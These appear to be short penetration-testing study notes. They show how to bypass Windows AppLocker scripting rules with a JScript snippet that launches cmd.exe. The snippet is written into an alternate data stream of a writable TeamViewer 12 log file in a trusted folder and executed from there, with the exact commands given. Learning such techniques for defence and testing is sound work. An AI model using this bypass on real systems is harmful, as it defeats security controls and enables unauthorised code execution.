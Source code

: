
```
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");

```

1. Save as test.js but can't execute as Applocker scripting rules in place. But
2. Find a file in trusted location that writable and executable.
3. Write to that file to an alternate data stream.
4. Execute the file

***Teamviewer 12 example***

```
C:\Users\student>type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\Users\student>"C:\Program Files
(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```